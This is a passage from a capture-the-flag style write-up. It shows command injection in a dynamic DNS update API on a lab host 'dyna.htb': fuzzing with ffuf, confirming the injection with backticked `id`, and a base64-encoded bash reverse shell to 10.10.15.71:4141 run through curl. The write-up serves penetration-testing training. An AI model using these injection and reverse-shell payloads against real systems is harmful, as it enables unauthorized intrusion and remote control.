 ## Command Injection in Dyn API

Doing fuzzing with ffuf found special character injection
```bash
❯ ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=FUZZ.dnsalias.htb&myip=0.0.0.0' -ac -v -c

# ... [snip] ...

[Status: 200, Size: 76, Words: 6, Lines: 5]
| URL | http://dynadns:sndanyd@dyna.htb/nic/update?hostname=".dnsalias.htb&myip=0.0.0.0
    * FUZZ: "

:: Progress: [32/32] :: Job [1/1] :: 13 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

get detailed response
```bash
❯ curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=".dnsalias.htb&myip=0.0.0.0'
server 127.0.0.1
zone dnsalias.htb
update delete .dnsalias.htb
good 0.0.0.0
```

And get command injection
```bash
❯ curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=`id`".dnsalias.htb&myip=0.0.0.0'
server 127.0.0.1
zone dnsalias.htb
update delete uid=33(www-data) gid=33(www-data) groups=33(www-data).dnsalias.htb
good 0.0.0.0
```

Getting reverse shell
```bash
echo "bash -i &> /dev/tcp/10.10.15.71/4141 0>&1" | base64   #encode reverse shell
echo+"YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA%2BJjEK"+|+base64+-d+|+bash    #payload

curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=`echo+"YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA%2BJjEK"+|+base64+-d+|+bash`".dnsalias.htb&myip=0.0.0.0'
```

![](screenshots/rev_shell.png)

# Privesc

